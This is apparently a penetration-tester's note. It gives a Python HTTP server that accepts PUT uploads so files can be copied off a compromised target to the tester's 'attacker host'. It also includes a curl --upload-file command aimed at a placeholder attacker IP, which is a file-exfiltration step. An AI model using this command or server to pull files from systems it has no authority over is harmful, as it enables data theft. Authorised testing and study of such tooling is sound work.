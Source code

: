 Python modules ```http.server``` and ```uploadserver``` appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

```bash
Linux: curl --upload-file <filename> http://<ip>:8000/
```

Note: I did not write code, I just found it and saved it.

```python
#!/usr/bin/python
import http.server
import os
import logging

try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """
    SimpleHTTPServer with added bonus of:

    - handle PUT requests
    - log headers in GET request
    """
    def do_GET(self):
        server.SimpleHTTPRequestHandler.do_GET(self)
        logging.warning(self.headers)

    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```

